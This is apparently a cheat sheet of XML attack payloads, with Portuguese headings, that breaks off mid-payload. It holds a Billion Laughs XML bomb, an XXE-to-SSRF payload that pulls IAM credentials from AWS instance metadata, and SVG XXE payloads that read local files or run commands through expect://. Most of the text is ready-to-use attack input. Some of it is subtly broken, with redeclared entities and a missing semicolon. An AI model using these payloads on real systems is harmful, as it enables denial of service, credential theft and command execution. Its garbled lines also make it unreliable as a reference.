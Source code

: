 ### XML Bombs (Billion Laughs Attack)
```
<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
  <!ENTITY lol0 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
  <!ENTITY lol1 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
  <!ENTITY lol2 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<login>
   <username>&lol2</username>
   <password>1234</password>
</login>
```

### XXE to SSRF na AWS
Captura metadados da instancia vulnerável que possui a versão 1 do serviços IMDS
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

### XXE na imagem .svg
Use Content-Type: image/svg+xml
```
# Exemplo 1

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
```
# Exemplo 2

<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```
```
# Exemplo 3
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
### OOB via SVG
xxe.svg
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
```